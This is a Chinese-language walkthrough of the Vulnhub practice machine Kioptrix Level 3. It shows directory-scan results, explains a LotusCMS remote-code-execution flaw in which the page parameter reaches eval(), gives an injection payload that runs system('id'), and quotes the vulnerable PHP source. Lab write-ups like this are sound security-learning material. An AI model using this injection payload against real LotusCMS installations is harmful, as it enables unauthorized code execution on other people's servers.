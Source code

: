 # 靶机信息
KioptrixVM3是vulnhub中的一台简单难度的渗透测试靶机

# 靶机初始枚举

只开放了两个端口，攻击面很小，对信息收集的要求没那么高。

扫一下目录
```
└─$ cat webscan     
/modules              (Status: 301) [Size: 359] [--> http://192.168.218.199/modules/]
/cache                (Status: 301) [Size: 357] [--> http://192.168.218.199/cache/]
/data                 (Status: 403) [Size: 326]
/gallery              (Status: 301) [Size: 359] [--> http://192.168.218.199/gallery/]
/style                (Status: 301) [Size: 357] [--> http://192.168.218.199/style/]
/core                 (Status: 301) [Size: 356] [--> http://192.168.218.199/core/]
/index.php            (Status: 200) [Size: 1819]
/phpmyadmin           (Status: 301) [Size: 362] [--> http://192.168.218.199/phpmyadmin/]
/update.php           (Status: 200) [Size: 18]
/server-status        (Status: 403) [Size: 335]
/index.php            (Status: 200) [Size: 1819]
```

搜索一下lotusCMS的漏洞，有一个RCE漏洞
 Router() 函数中将 page= 参数传入 eval()，导致可以构造恶意输入
`?page=');system("id");//  ← 变成 eval("');system('id');//");`
扒到源码
```
getInputString("page", "index");
		
		//Get plugin request (if any)
		$plugin = $this->getInputString("system", "Page");
		
		//If there is a request for a plugin
		if(file_exists("core/plugs/".$plugin."Starter.php")){
			//Include Page fetcher
			include("core/plugs/".$plugin."Starter.php");

			//Fetch the page and get over loading cache etc...
			eval("new ".$plugin."Starter('".$page."');");
			
		}else if(file_exists("data/modules/".$plugin."/starter.dat")){
			//Include Module Fetching System
			include("core/lib/ModuleLoader.php");
			
			//Load Module
			new ModuleLoader($plugin, $this->getInputString("page", null));
		}else{ //Otherwise load a page from the standard system.
			//Include Page fetcher
			include("core/plugs/PageStarter.php");
			
			//Fetch the page and get over loading cache etc...
			new PageStarter($page);
		}
	}
	
	/**
	 * Returns a global variable
	 */
	protected function getInputString($name, $default_value = "", $format = "GPCS")
	{
		//order of retrieve default GPCS (get, post, cookie, session);
		$format_defines = array (
```
